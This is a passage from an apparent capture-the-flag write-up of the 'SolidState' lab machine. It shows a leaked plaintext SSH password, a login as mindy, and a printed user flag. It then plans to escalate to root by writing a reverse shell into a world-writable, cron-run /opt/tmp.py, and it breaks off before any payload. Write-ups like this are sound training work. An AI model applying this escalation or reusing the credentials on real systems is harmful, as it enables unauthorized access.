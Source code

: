 ```python
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We find out that she has recieved new creds.

|Username|Password|
|--|--|
|mindy|P@55W0rd1!2@|

# Initial FootHold as mindy
We use the credentials of `mindy` to SSH into the box.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/solidstate]
└──╼ # ssh mindy@10.10.10.51
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul  2 10:48:48 2021 from 10.10.14.9
mindy@solidstate:~$
```

We have `rbash` running on sshing into the box which we have to escape.
![[Pasted image 20210702202609.png]]

## Getting the user Flag
```python
mindy@solidstate:/$ cd /home/mindy/
mindy@solidstate:~$ ls -l
total 8
drwxr-x--- 2 mindy mindy 4096 Apr 26 12:37 bin
-rw------- 1 mindy mindy   33 Nov 18  2020 user.txt
mindy@solidstate:~$ cat user.txt 
0510e71c2e8c9cb333b36a38080d0dc2
```

# Root Escalation
We have a cron ruuning on the box which executes a python script named `/opt/tmp.py` every 1 minute. Which is readable and writable by our user.
We could inject a reverse shell inside the file and get a rev shell next time the cron executes.
```
mindy@solidstate:/opt$ ls -l
total 8
drwxr-xr-x 11 root root 4096 Apr 26 12:37 james-2.3.2
-rwxrwxrwx  1 root root  169 Jul  2 11:05 tmp.py
mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
```